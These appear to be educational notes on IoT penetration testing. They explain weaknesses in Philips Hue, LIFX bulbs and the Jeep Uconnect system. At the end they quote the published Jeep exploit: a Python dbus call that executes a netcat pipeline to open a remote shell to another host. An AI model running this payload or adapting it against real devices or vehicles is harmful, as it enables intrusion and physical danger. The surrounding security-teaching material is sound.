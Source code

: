 # IoT Penetration Testing  

#### Objective:  
- Establish a process for assessing IoT devices 
- Extract firmware from devices 
- Mount and run a firmware image 
- Explore IoT exploitation

## IoT Attacks and Threats  
### IoT  
Like anything else, the Internet of Things (IoT) is connected via a network interface. The most common method is a Layer 3 access that is via an IP address, then each device like any node on the network has an attack surface, this is represented by a port which is a Layer 4 interface, this is the same as any other target we go up against. These ports provide us a possible method of access, depending on how the device is setup. The problem is many of these devices have been designed and manufactured with default services running and the default configuration settings. Just as in the past, the manufactures placed these devices into circulation with ports and default credentials. This is how the Mirai botnet came to pass. Their home devices and everything else should be following the best practices principle of least services and privileges, like anything else. It is our job as testers to validate that the devices are not placed on the network with these weak configurations and do not present a vector for an attacker to leverage what is there as an attack surface that had not been changed from the defaults or at least modified to make the device a more challenging target.

### Popular IoT Hacks  
This is just a shortlist, there are so many different examples of these types of hacks, and they all have similar characteristics, that is an attack surface and poor design or weak configuration. This is our job as testers, and we have to map this and see what is there, so our clients know what risk they have added to their network. As has been stated, these are all devices that have some type of client-server interaction, and as a result of that, there is an opportunity to leverage and attack this interaction.

### Phillips Smart Home  
- Multiple weaknesses
- Hue Worm
  - Leveraged the **weakness of hard coded symmetric keys**
- Blackouts
  - Authentication provided by the **MD5 hash** of the MAC address
    - Trivial to provide as authentication
    - Led to the ability to continually turn the bulb off and cause a permanent blackout
 
When we review the weaknesses discovered in the Phillips Smart Home, once again, we see some basic tenets of security not being followed. Hardcoded encryption keys are not a good security practice, and the fact that they were used in more than one place is another problem with the design. 

The usage of a MAC address for authentication is not anything that follows best practices either.

### LIFX Smart Bulb  
- Serious vulnerabilities discovered
- Packet injection
- Compromised Wi-Fi credentials
- Take over bulbs without providing any authentication

This is an older example, but once again, it is the same premise as before, not following best practices and using poor methods of security. The communication between the devices was encrypted, which provided some forms of protection. In a traditional pentest, we would be at the mercy of attempting to decrypt this traffic, but within an IoT device pentest we have other methods we can use, for example, we want to look at this in its entirety, and we can do this by examining the firmware of the device, so we can determine how the packets are getting encrypted. The challenge in IoT testing is determining how to extract the firmware. In the case of Lifx bulbs, JTAG gave access to the Lifx firmware, which when reversed led to the identification of the type of encryption, which in this case was Advanced Encryption Standard (AES), the encryption key, the initialization vector, and the block mode used for encryption. Because this information would have been the same for all the Lifx smart bulbs, an attacker could take control of any light bulb and break into the Wi-Fi because the device was also communicating the Wi-Fi credentials over the radio network, which could now be decrypted.
 
### The Jeep Hack  
- Well publicized attack
- Took control of the Jeep via **weak remote access** attack surface
- Vulnerabilities were in the **Chrysler Uconnect system**
- Open port with anonymous authentication

This is one of the most well-known attacks, but when the remote access vector of a protocol is open with anonymous authentication, we once again see a blatant example of when the manufactures are not even putting in the most basics of protection, the screenshot is the exploit code from the official white paper of the attack. As you review the code, you see how simple this is and moreover, how weak this has been configured by the manufacturer, to allow access via a port and provide a vector where we can use a basic python module and string to connect to a bus and provide code, well nothing else needs to be said, this is notoriously weak. Once arbitrary command execution was gained, it was possible to perform a lateral movement and send CAN messages taking control of the various elements of the vehicle, such as the steering wheel, brakes, headlights, and so on. The famous picture was when they sent the kill signal, and the Jeep was at the side of the road and completely disabled.

#### Jeep hack exploit code:  
```python
#!python
import dbus
bus_obj=dbus.bus.BusConnection("tcp:host=192.168.5.,port=6667")
proxy_object=bus_obj.get_object('com.harman.service.NavTrailService','com/harman/service/NavTrailService')
playerengine_iface=dbus.Interface(proxy_object,dbus_iterface='com.harman.ServiceIpc')
print playerengine_iface.Invoke('execute','{"cmd":"netcat -l -p 6666 | /bin/sh | netcat 192.168.5.109 6666"}')
```

